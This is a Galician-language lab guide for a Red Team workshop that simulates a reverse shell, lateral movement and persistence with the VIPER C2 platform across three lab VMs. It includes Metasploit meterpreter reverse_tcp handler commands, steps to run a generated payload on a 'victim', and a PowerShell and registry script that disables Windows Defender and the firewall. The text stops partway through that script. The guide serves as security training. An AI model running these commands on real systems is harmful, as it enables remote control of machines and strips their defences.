Práctica de taller: Simulación de Ataques con VIPER
Antes de empezar
Esta práctica supón que xa liches os apuntamentos de VIPER, Red Team e C2 e de Metasploit Framework (o motor que hai debaixo de VIPER: msfconsole, módulos, payloads). Aquí céntrámonos exclusivamente na simulación de ataques (Red Team) con VIPER: acceso inicial, movemento lateral e persistencia.
Montar o escenario automaticamente
Podes despregar as 3 máquinas deste escenario de forma automatizada con Packer + VirtualBox: ver Apéndice · Automatización · VIPER. O código do laboratorio está no repositorio ricardofc/viper-he.lab.
Escenario
Contorna: 3 máquinas virtuais (VMs) Oracle VirtualBox
→ 2 máquinas virtuais executando Debian 13: VM-1 e VM-2
→ 1 máquina virtual executando Microsoft Windows 11: VM-3
- VM-1 (Atacante):
- Rol: Servidor de Comando e Control (C2).
- Software Principal: Instalación base estándar de Debian 13 e VIPER
- Propósito: Administrar os payloads/axentes, enviar tarefas e recoller información
das máquinas vítimas. - Rede:
- NIC1: NAT
- NIC2: Rede Interna → 192.168.120.100/24
- CPU: 2
- RAM: 4GB
- Disco duro: 20GB dinámico
- VM-2 (Vítima a través de payload):
- Rol: Sistema obxectivo simulado.
- Software Inicial: Instalación base estándar de Debian 13.
- Acceso: usuario
losada/abc123.(eroot/abc123.). - Propósito: Executar payload xerado por Viper, o cal establecerá unha conexión
de volta (callback) cara á VM Atacante (C2). - Rede:
- NIC1: NAT
- NIC2: Rede Interna → 192.168.120.101/24
- CPU: 2
- RAM: 4GB
- Disco duro: 20GB dinámico
- VM-3 (Vítima a través de movemento lateral):
- Rol: Sistema obxectivo simulado.
- Software Inicial: Instalación base estándar de Microsoft Windows 11.
- Propósito: Executar módulo en Viper, o cal establecerá unha conexión
dende VM-2 a esta máquina virtual e de volta (callback) cara á VM Atacante (C2). - Rede:
- NIC1: NAT
- NIC2: Rede Interna → 192.168.120.102/24
- CPU: 2
- RAM: 4GB
- Disco duro: 20GB dinámico
Tempo execución payload: 30 minutos
Ver VIPER Pricing A versión COMMUNITY limita cada sesión coa vítima a 30 minutos. Ao rematar, hai que crear outra conexión, cambiando os PID dos procesos e os portos das conexións. Teno en conta ao reproducir a práctica. (Fundamento en Limitación da versión Community.)
Alcance da proba
- Simulación de ataques focalizada en sistemas GNU/Linux e Microsoft Windows dentro dunha rede interna corporativa.
- Técnicas utilizadas: Reverse Shell, Movemento Lateral e Persistencia.
- Obxectivo principal: reproducir a cadea de ataque dun Red Team con VIPER.
VM-1 Atacante: instalación de VIPER
1. Requisitos do sistema
A instalación mínima require 2 vCPU, 4 GB de RAM, 5 GB de disco e Linux kernel 5.x+ (aquí Debian 13). Detalle en Requisitos mínimos.
2. Instalación de VIPER
Se montaches o escenario co laboratorio automatizado (recomendado)
Se creaches as VMs co repositorio ricardofc/viper-he.lab (ver Apéndice · Automatización · VIPER), a VM-1 xa ven con VIPER instalado e en execución: o tuning do sistema, Docker, a imaxe viperplatform/viper e o docker-compose.yml (con restart: always) xa os deixou feitos o seu configure.sh. O escritorio arranca con autologin (viper / abc123.) e hai un atallo VIPER Dashboard no escritorio. Neste caso salta directamente ao punto 3 (Dashboard).
Instalación manual de VIPER (só se NON usas o laboratorio automatizado)
Se montas a VM-1 a man, segue a guía oficial viperrtp.com/guide/getting_start. En resumo, como root:
- Aplica o tuning de rede (
sysctl/ulimit) que recomenda a guía oficial. - Instala Docker:
apt update && apt -y install docker.io docker-compose. - Crea
/root/VIPER/docker-compose.ymlcoa imaxeviperplatform/viper:latest,network_mode: "host",restart: alwaysecommand: ["<CONTRASINAL>"](o contrasinal do loginrootdo dashboard, p. ex.abc123.). - Levanta o servizo:
cd /root/VIPER && docker-compose up -d.
O contido exacto deste docker-compose.yml e do tuning está no configure.sh da VM-1 do repositorio: vm1-viper-c2/configure.sh.
3. Configuración do Dashboard en VIPER
VIPER ofrece un Dashboard web para xestionar ataques e monitorizar operacións (concepto en VIPER: que é e que fai).
-
Inicia o servidor VIPER:
No laboratorio automatizado xa está arrancado
Se usas a VM-1 de
viper-he.lab, VIPER corre en Docker conrestart: always, así que arranca só en cada inicio da VM (a primeira vez tarda uns minutos). Non precisas executar nada; pasa directamente ao punto 2. Os comandos de abaixo só fan falta nunha instalación manual.cd $VIPER_DIR # Nota: Asegúrate que Docker está en execución (systemctl start docker) docker-compose up || docker-compose up -d # -d → Executar en segundo plano
-
Acceder á interface de Viper:
-
Login — Username: root · Password: abc123. (ou o que configuraches)

Dende o Dashboard podes xestionar os ataques.
Ao acceder atoparás máquinas na base de datos do propio VIPER, que podes eliminar; aínda que aparezan non afectan ao desenvolvemento da práctica.
Exemplo 1: Reverse Shell
Concepto e diagrama en Reverse Shell.

Escenario resumido
VM-1(VIPER):192.168.120.100(centro de control, conmsfconsole).VM-2(Debian con payload activo):192.168.120.101.
VM-1 Atacante: VIPER
-
Crear un
Handleren VIPER (que é un handler → Arquitectura sobre Metasploit):- No Dashboard, vai a
Handler&Payload. - Crea un novo handler, p.ex.
linux/x64/meterpreter/reverse_tcpouwindows/x64/meterpreter/reverse_tcpsegundo o obxectivo. - Configura
LHOSTcoa IP do servidor VIPER eLPORT(p.ex. 4444).

Sustituír<IP_SERVIDOR_C2>pola IP de Viper.
- No Dashboard, vai a
-
Xerar o
Payload:- En
Generate Payload, selecciona o handler creado. - Elixe o formato (
elfpara Linux,exepara Windows). - Descarga o payload xerado.



- En
VM-2 Máquina vítima
- Comprometer a máquina vítima (VM-2 Debian):
- Transfire o payload á vítima (simulando phishing, descarga web, USB…).
- Executa o payload:

VM-1 Atacante: VIPER
-
Obter Remote Shell en VIPER:
- No Dashboard verás unha nova sesión (axente) conectada dende a vítima (premer nos segundos de conexión establecidos).


- No Dashboard verás unha nova sesión (axente) conectada dende a vítima (premer nos segundos de conexión establecidos).
-
Execución de comandos na máquina comprometida:
- Interactúa coa sesión (clic dereito onde aparecen as IPs de viper e da comprometida).




- Interactúa coa sesión (clic dereito onde aparecen as IPs de viper e da comprometida).
Exemplo 2: Movemento Lateral (Expandir acceso)
Prerrequisito
Antes de comezar, realiza o Exemplo 1: Reverse Shell.
Concepto (movemento lateral vs pivoting) e diagrama en Movemento lateral vs. Pivoting.

Asumimos que o atacante xa comprometeu VM-2 (Exemplo 1) e quere acceder á VM-3 na mesma rede interna.
Escenario resumido
VM-1(VIPER):192.168.120.100.VM-2(Debian con payload activo):192.168.120.101.VM-3(Windows 11 Enterprise Evaluation):192.168.120.102(portos135,139,445; credenciaisusuario/abc123.).
Obxectivo: movemento lateral dende VM-2 cara VM-3.
Paso 1: Acceso á VM-2 (payload activo)
Comandos de Metasploit
A partir de aquí usamos a consola de Metasploit (a lapela MsfConsole de VIPER). Se precisas repasar use/set/run, os handlers, psexec ou a xestión de sessions, tes a referencia en Metasploit Framework → Exemplos.
Dende VM-1 (msfconsole - VIPER):
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 192.168.120.100
set LPORT 4444
run

Dende VM-2 (Bash - Linux):

Paso 2: Movemento lateral cara VM-3
Asumimos que VM-2 comunica directamente con VM-3 (192.168.120.0/24): só movemento lateral, non pivoting.
Escaneo de VM-3 dende VM-2 (dentro dunha consola meterpreter; ao rematar, exit para volver a msfconsole):
- Conectividade + SO por TTL (64→Linux, 128→Windows):
- Portos TCP abertos:

Paso 3: Movemento lateral con psexec (SMB)
Preparación da vítima Windows 11 (só laboratorio)
psexec sube un binario de servizo a ADMIN$, créao e tenta arrancalo. Para que funcione hai que desactivar UAC, firewall e, sobre todo, a Protección en tempo real de Windows Defender (que, se non, pon o binario en corentena → service failed to start - access denied). A imaxe de Packer xa intenta deixalo feito; se a túa VM aínda ten Defender activo, segue estes pasos na VM-3, como administrador.
1. (Unha vez, na interface gráfica) desactivar a Protección contra manipulacións. En Windows 11 non é scriptable: Seguridad de Windows → Protección antivirus y contra amenazas → Administrar la configuración → desactivar Protección contra manipulaciones.
2. Script de preparación (PowerShell como administrador):
# --- Windows Defender: desactivar protección en tempo real + exclusión ---
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableBehaviorMonitoring $true -ErrorAction SilentlyContinue
Set-MpPreference -DisableScriptScanning $true -ErrorAction SilentlyContinue
Set-MpPreference -DisableIOAVProtection $true -ErrorAction SilentlyContinue
Add-MpPreference -ExclusionPath "C:\"
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection" /v DisableRealtimeMonitoring /t REG_DWORD /d 1 /f
# --- Admin remoto con conta local (imprescindible para psexec sen dominio) ---
reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
# --- Firewall OFF nos tres perfís ---
netsh advfirewall set allprofiles state off
# --- Compartición SMB (135/139/445) ---
